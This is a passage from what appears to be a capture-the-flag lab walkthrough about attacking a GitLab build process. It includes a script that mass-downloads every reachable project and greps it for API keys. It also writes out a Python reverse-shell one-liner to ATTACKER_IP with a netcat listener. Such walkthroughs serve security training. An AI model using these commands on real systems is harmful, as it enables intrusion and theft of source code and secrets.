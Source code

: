 ```python
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```
![[Pasted image 20250228014439.png]]
If you run into a problem with missing dependencies the easiest way to solve this on the Attackbox is by making a python virtual environment. Then just install the package.
![[Pasted image 20250228014624.png]]
Now we can run the enumerator and it will download a bunch of files
![[Pasted image 20250228014649.png]]
We will be focusing on the mobile app file, let's unzip it.
![[Pasted image 20250228014737.png]]
Then we can cd in and use `grep -iR key *` to find any references to key in the directory.
![[Pasted image 20250228014812.png]]
This worked and we can now finished with this task.
![[Pasted image 20250228014057.png]]
```
.gitignore
branches
unauthorised tampering
THM{You.Found.The.API.Key}
```
## Task 6: Securing the Build Process

This task is pretty straight forward. Start by forking the `Merge Test` project in gitlab. 

Create a new directory on the Attackbox using 
```
mkdir task6
cd task6
```
Create a file called `shell.sh` and put the following code inside:
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
Host the file on using a simple python http server:
```
python3 -m http.server 8080
```
Create a listener the reverse shell will attach to:
```
root@AttackBox:~$ nc -lvp 8081 
Listening on 0.0.0.0 8081 
```